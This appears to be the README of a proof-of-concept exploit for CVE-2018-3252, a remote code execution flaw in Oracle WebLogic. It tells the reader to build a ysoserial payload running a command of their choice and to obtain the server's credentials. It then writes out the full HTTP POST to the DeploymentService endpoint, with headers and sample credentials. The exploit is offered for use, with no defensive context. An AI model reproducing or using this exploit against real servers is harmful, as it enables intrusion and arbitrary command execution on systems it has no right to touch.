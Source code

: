 # CVE-2018-3252-PoC


#### 1.Generate PoC with YSOSERIAL
 
PS: You can change the command in the CVE-2018-3252.java to what you want to execute.

#### 2.You should know the `USERNAME` and `PASSWORD` of the target weblogic server


#### 3.Send the payload to the URL


```
POST /bea_wls_deployment_internal/DeploymentService HTTP/1.1
Host: 127.0.0.1:7001
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Upgrade-Insecure-Requests: 1
wl_request_type: data_transfer_request
username: weblogic
password: admin123
serverName: Al1ex
deployment_request_id: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/50.0.2661.75 Safari/537.36 QQBrowser/4.1.4132.400
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Connection: close
Content-Length: 3334
```

